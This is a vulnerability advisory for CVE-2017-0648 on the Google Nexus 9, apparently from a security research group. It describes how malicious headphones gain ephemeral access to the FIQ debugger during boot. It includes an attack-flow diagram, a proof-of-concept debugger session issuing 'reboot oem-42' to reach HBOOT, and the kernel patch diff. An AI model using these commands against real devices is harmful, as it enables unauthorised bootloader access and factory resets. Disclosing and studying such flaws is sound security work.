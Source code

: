 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-08'
    - type: 'report'
      date: '2017-03-08'
    - type: 'deadline'
      date: '2017-06-06'
    - type: 'release'
      date: '2017-06-13'
    - type: 'vendor-advisory'
      date: '2017-06-05'
    
product:
    - Google Nexus 9

vulnerable: 
    - 'Google Nexus 9 before build N9F27C'
mitigation: 'Upgrade to N9F27C, released as part of the June 2017 Security Bulletin'
references:
    - src: "Google's Advisory (June 2017)"
      url: 'https://source.android.com/security/bulletin/2017-06-01#kernel-components'
    - src: 'Factory Images for Nexus and Pixel Devices'
      url: 'https://developers.google.com/android/images'
      
title: 'Google Nexus 9 Ephemeral Access to Unrestricted FIQ Debugger and SysRq'
severity: high
alephid: ALEPH-2017014
date: '2017-06-13'
cve: CVE-2017-0648
---
```

Due to insufficient [patching](https://android.googlesource.com/kernel/tegra/+/a075f8ab69f679f221f9e2001363aae83cbdd2e8) of @CVE-2017-0510, malicious headphones could gain ephemeral access to the unrestricted FIQ Debugger and also issue `SysRq` commands. 
Such access, not blocked by @CVE-2017-0510's patch, was possible for a very short window of time during boot. Since the attacker could force a reboot even from the limited FIQ, he could access the capable FIQ even if the victim inserted the malicious cable after the platform had been fully loaded. Having ephemeral access to the unrestricted FIQ debugger is enough for the attacker to reboot into HBOOT (which can enable additional attacks), conduct factory resets, and more. 
```
Ephemeral Access to Unrestricted FIQ and SysRq (CVE-2017-0648) 
=============================================================

      .------.   (1)    .------------------.
 .--> | BOOT | -------> | Unrestricted FIQ | --. 
 |    `------'          `---------.--------'   | (4) .-------.
 |                                |            |---> | HBOOT |
 |   (3)    .-------------.   (2) |            |     `-------'
 `--------- | Limited FIQ | <-----'            |            
            `-------------'                    | (5) .---------------.
                                               `---> | Factory Reset |
                                                     `---------------'
Transitions:   
(1) sysrq_enabled = SYSRQ_DEFAULT_ENABLE = 1
(2) init: write 0 /proc/sys/kernel/sysrq 0 => sysrq_enabled = 0
(3) attacker @ limited FIQ:      'reboot'
(4) attacker @ unrestricted FIQ: 'reboot oem-42'
(5) attacker @ unrestricted FIQ: 'reboot oem-76'
```

It should be noted that **non-ephemeral** unrestricted FIQ and SysRq access was also possible while the device was in the recovery mode, however, it is less interesting due to reduced likelihood of victims having malicious headphones connected while their device is in recovery mode.

## Proof-of-Concept ##

The following demonstrates how we preempt an arbitrary process, and also get into the HBOOT mode, bypassing @CVE-2017-0510's patch. We assume the attack begins when the platform is fully-loaded. We force a (normal reboot), and then get an early and ephemeral access to the FIQ debugger, during which we issue the capable-FIQ `bt` command, and then reboot into HBOOT by issuing `reboot oem-42`:

<div class="language-terminal highlighter-rouge"><pre class="highlight">
<code><span class="nc">debug&gt;</span><span class="kv"> help</span>
FIQ Debugger commands:
 reboot        Reboot
 reset         Hard reset
 irqs          Interrupt status
 sleep         Allow sleep while in FIQ
 nosleep       Disable sleep while in FIQ
 console       Switch terminal to console
 ps            Process list
<span class="nc">debug&gt;</span><span class="kv"> bt</span>
<span class="nc">debug&gt;</span><span class="kv"> reboot</span>
<span class="nc">debug&gt;</span>
[0000.045] Battery Present
[0000.069] Battery Voltage: 3743 mV
[0000.072] Battery charge sufficient
[0000.076] Override BCT configs
[0000.078] NvBootEmcReadMrr+++
[...]
[hboot query] query 24 is not implemented
Platform Pre OS Boot configuration...
[INFO] booting linux @ 0x80080000, tags @ 0x83a80000, ramdisk @ 0x82a80000, machine type: -1
[...]
&lt;hit enter to activate fiq debugger&gt;
<span class="nc">debug&gt;</span><span class="kv"> help</span>
FIQ Debugger commands:
    pc            PC status
    regs          Register dump
    allregs       Extended Register dump
    bt            Stack trace
    reboot [&lt;c&gt;]  Reboot with command &lt;c&gt;
    reset [&lt;c&gt;]   Hard reset with command &lt;c&gt;
    irqs          Interupt status
    kmsg          Kernel log
    version       Kernel version
    sleep         Allow sleep while in FIQ
    nosleep       Disable sleep while in FIQ
    console       Switch terminal to console
    cpu           Current CPU
    cpu &lt;number&gt;  Switch to CPU&lt;number&gt;
    ps            Process list
    sysrq         sysrq options
    sysrq &lt;param&gt; Execute sysrq with &lt;param&gt;
[...]
<span class="nc">debug&gt;</span><span class="kv"> bt</span>
pid: 89  comm: kworker/u4:1
  x0 0000000000002ee0   x1 0000000000002d09
  x2 000000000859c84a   x3 ffffffc002968c00
  x4 0000000000defde8   x5 ffffffc000f56aa8
  x6 ffffffc0029c8400   x7 ffffffc0029c8800
  x8 ffffffc002935130   x9 0000000010624dd3
 x10 000000000001a1b6  x11 0000000000000066
 x12 000000000000006f  x13 0000000000000075
 x14 000000000000006e  x15 0000000000000064
 x16 000000000000000a  x17 0000000000000004
[...]
<span class="nc">debug&gt;</span><span class="kv"> reboot oem-42</span>
[...]
<span class="rd">###[ Bootloader Mode ]###</span>
[...]
<span class="rd">hboot&gt;</span><span class="kv"> ?</span>
#. &lt;command&gt;               : &lt;brief description&gt;
security_command:
  1. boot                    : no desc.
[...]
 14. readconfig              : no desc.
 15. readimei                : no desc.
 16. readmeid                : no desc.
 17. readpid                 : no desc.
 18. rebootRUU               : no desc.
 19. refurbish               : no desc.
 20. reset                   : no desc.
[...]
<span class="rd">hboot&gt;</span>
</code></pre></div>

## Patch ##

Google has patched the vulnerability by commit [34597d088801](https://android.googlesource.com/kernel/tegra/+/34597d088801ad8060b45026df2435f52136032f), available in the [N9F27C June 2017 build](https://developers.google.com/android/images#volantis).
The value of `SYSRQ_DEFAULT_ENABLE` is now 0, preventing access to the unrestricted FIQ debugger and `SysRq` interface since the kernel begins its execution:

```c
diff --git a/include/linux/sysrq.h b/include/linux/sysrq.h
index 5a0bd93..d393eeb 100644
--- a/include/linux/sysrq.h
+++ b/include/linux/sysrq.h
@@ -18,7 +18,7 @@
 #include <linux/types.h>
 
 /* Enable/disable SYSRQ support by default (0==no, 1==yes). */
-#define SYSRQ_DEFAULT_ENABLE	1
+#define SYSRQ_DEFAULT_ENABLE	0
 
 /* Possible values of bitmask for enabling sysrq functions */
 /* 0x0001 is reserved for enable everything *
```
